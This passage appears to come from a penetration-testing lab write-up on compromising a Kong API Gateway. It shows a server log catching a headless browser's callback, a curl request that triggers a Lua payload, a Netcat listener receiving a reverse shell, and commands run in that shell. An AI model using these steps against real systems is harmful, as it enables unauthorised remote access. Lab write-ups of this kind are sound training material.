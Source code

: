 If everything worked, we should have a `"setupComplete"` entry in our `access.log` file.
```bash
┌──(kali㉿kali)-[/var/www/html]
└─$ tail -f /var/log/apache2/access.log           
192.168.217.135 - - [29/Jul/2025:15:08:56 -0400] "GET /rce.html HTTP/1.1" 200 865 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.217.135 - - [29/Jul/2025:15:08:56 -0400] "GET /callback?setupComplete HTTP/1.1" 404 492 "http://192.168.45.203/rce.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"

```
It seems like our payload worked. We will need to set up a Netcat listener and then trigger our Lua payload by accessing the new service endpoint.
```bash
┌──(kali㉿kali)-[~]
└─$ curl -i  http://apigateway:8000/supersecret

```
The request will hang, but if we check our Netcat listener, we should have a shell.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 1337  
listening on [any] 1337 ...
connect to [192.168.45.203] from (UNKNOWN) [192.168.217.135] 60366
id
uid=100(kong) gid=65533(nogroup) groups=65533(nogroup)
ls
bin
dev
docker-entrypoint.sh
etc
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

```
Our payload worked and we now have a reverse shell on the Kong API Gateway server. The presence of `.dockerenv` and `docker-entrypoint.sh` confirm our earlier suspicion that the servers were actually containers.
